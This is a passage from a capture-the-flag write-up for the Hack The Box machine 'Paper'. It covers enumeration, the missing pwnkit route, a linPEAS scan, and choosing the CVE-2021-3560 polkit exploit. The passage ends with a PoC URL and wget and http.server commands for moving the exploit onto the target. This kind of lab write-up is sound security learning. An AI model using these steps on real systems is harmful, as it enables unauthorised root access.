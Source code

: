 ```
[dwight@paper ~]$ pwd
/home/dwight
[dwight@paper ~]$ ls
bot_restart.sh  hubot  sales  user.txt
[dwight@paper ~]$ cat user.txt
c483747230444b4f3a5ff1c79c01245a
```

<br>

## System enumeration

I've already looked through the files in his home directory via the chat bot interface so I look around the system to see what else I can find.

Unfortunately I don't have read permission **wp-config.php**. Looking around for **SUID** bit files doesn't give us anything.

I look at the file permissions of **pkexec** and it's had the **SUID** bit removed, so we can't use **pwnkit**. Makes sense since this is a brand new box that was just released.

```
[dwight@paper ~]$ ls -al /usr/bin/pkexec
-rwxr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec
```

I start up an HTTP server on my system and transfer **linPEAS** over to do a quick scan of the system.

Several things come back such as the path variable for **dwight** being exploitable if we can find a proper **SUID** file to use, but that didn't happen.

This looks like the most promising lead to me after going through the results:

![](images/paper13.png)

<br>

## Privilege escalation

Digging around and reading up on the CVE I decide this looks like the most promising way to go about escalating our privilges. Notice the author name here, it's the same as the person who created the **Hack the Box** room.

```
https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh
```

I can't download the file directly to the machine so I download it on my own system with **wget** and then transfer it over like we did **linPEAS**.

On my system:

`wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh`

`python3 -m http.server 80`
